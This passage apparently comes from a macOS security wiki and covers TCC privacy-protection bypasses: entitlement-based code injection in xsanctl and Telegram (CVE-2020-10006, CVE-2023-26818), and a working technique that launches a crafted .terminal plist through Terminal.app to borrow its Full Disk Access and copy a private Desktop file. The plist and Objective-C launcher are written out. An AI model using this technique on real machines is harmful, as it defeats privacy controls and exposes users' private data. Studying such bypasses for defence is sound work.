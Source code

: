 ### CVE-2020-10006

The binary `/system/Library/Filesystems/acfs.fs/Contents/bin/xsanctl` had the entitlements **`com.apple.private.tcc.allow`** and **`com.apple.security.get-task-allow`**, which allowed to inject code inside the process and use the TCC privileges.

### CVE-2023-26818 - Telegram

Telegram had the entitlements `com.apple.security.cs.allow-dyld-environment-variables` and c`om.apple.security.cs.disable-library-validation`, so it was possible to abuse it to **get access to its permissions** such recording with the camera. You can [**find the payload in the writeup**](https://danrevah.github.io/2023/05/15/CVE-2023-26818-Bypass-TCC-with-Telegram/).

## By open invocations

It's possible to invoke open in sandboxed&#x20;

### Terminal Scripts

It's quiet common to give terminal **Full Disk Access (FDA)**, at least in computers used by tech people. And it's possible to invoke **`.terminal`** scripts using with it.

**`.terminal`** scripts are plist files such as this one with the command to execute in the **`CommandString`** key:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE plist PUBLIC "-//Apple//DTD PLIST 1.0//EN" "http://www.apple.com/DTDs/PropertyList-1.0.dtd"> <plist version="1.0">
<dict>
    <key>CommandString</key>
    <string>cp ~/Desktop/private.txt /tmp/;</string>
    <key>ProfileCurrentVersion</key>
    <real>2.0600000000000001</real>
    <key>RunCommandAsShell</key>
    <false/>
    <key>name</key>
    <string>exploit</string>
    <key>type</key>
    <string>Window Settings</string>
</dict>
</plist>
```

An application could write a terminal script in a location such as /tmp and launch it with a come such as:

```objectivec
// Write plist in /tmp/tcc.terminal
[...]
NSTask *task = [[NSTask alloc] init];
NSString * exploit_location = @"/tmp/tcc.terminal";
task.launchPath = @"/usr/bin/open";
task.arguments = @[@"-a", @"/System/Applications/Utilities/Terminal.app",
exploit_location]; task.standardOutput = pipe;
[task launch];
```
